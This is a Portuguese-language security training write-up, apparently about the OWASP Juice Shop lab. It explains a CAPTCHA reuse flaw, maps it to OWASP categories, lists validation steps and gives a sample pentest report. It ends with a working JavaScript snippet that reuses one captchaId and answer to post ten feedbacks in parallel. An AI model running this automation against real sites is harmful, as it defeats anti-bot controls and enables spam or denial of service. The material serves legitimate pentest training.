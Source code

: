 

### 📌 **Qual é a vulnerabilidade?**

O que você fez é conhecido como **CAPTCHA Fixation / CAPTCHA Bypass**, que está ligado a:

* 🔹 **A07:2021 – Identification and Authentication Failures** (OWASP Top 10 2021)
  → Porque o aplicativo permite reutilizar o mesmo CAPTCHA sem validade, quebrando o mecanismo de autenticação do desafio.

* 🔹 Pode também ser categorizado em **A05:2021 – Security Misconfiguration**, porque a aplicação não invalida o CAPTCHA após uso.

---

### 📌 **Por que isso é uma falha?**

✅ O CAPTCHA deveria:

1. Ser **válido apenas uma vez**.
2. **Expirar após um curto período**.
3. **Não permitir reutilização** de `captchaId` + `answer`.

🚨 Mas no Juice Shop, você pode:

* Resolver **uma única vez** o CAPTCHA.
* Reutilizar esse mesmo `captchaId` e `answer` **quantas vezes quiser**.
* Automatizar envios em **loop**, quebrando a proteção contra bots.

---

### 📌 **Como validar a vulnerabilidade (passo a passo)?**

1. **Capture a requisição** de envio de feedback no navegador (DevTools → Network → `/api/Feedbacks/`).
2. **Pegue o `captchaId` e `answer`** da requisição anterior.
3. **Envie 10+ feedbacks** usando o **mesmo captcha**.
4. Se todos forem aceitos → **CAPTCHA Bypass confirmado**.

---

### 📌 **Como reportar em um pentest (exemplo):**

> **Título:** CAPTCHA Bypass via Fixation de captchaId
> **Impacto:** Permite automação de envios sem resolver o desafio matemático, possibilitando ataques de spam ou negação de serviço.
> **Causa:** O backend não invalida o captcha após uso, permitindo reutilização indefinida.
> **Referência OWASP:**
>
> * [OWASP A07:2021 – Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
> * [OWASP Testing Guide – Testing for CAPTCHA Bypass](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/README.html)

---


A ideia é:

✅ **1)** Fazer **uma requisição inicial** para `/rest/captcha/` para pegar `captchaId` e `answer`.

✅ **2)** Enviar **10+ feedbacks** usando sempre esses valores fixos (ou recalculando a cada iteração).

✅ **3)** Tudo usando `fetch()` no navegador.

---

### ⚠️ Variante ainda mais rápida (rodando 10 em paralelo):

```js
(async () => {
  const captchaRes = await fetch('/rest/captcha/');
  const captchaData = await captchaRes.json();

  console.log('Captcha fixado:', captchaData);

  const requests = [];

  for (let i = 1; i <= 10; i++) {
    const feedback = {
      captchaId: captchaData.captchaId,
      captcha: captchaData.answer,
      comment: `Feedback #${i}`,
      rating: 5
    };

    requests.push(
      fetch('/api/Feedbacks/', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(feedback)
      })
    );
  }

  await Promise.all(requests);
  console.log("✅ Todos os 10 feedbacks enviados!");
})();
```

---
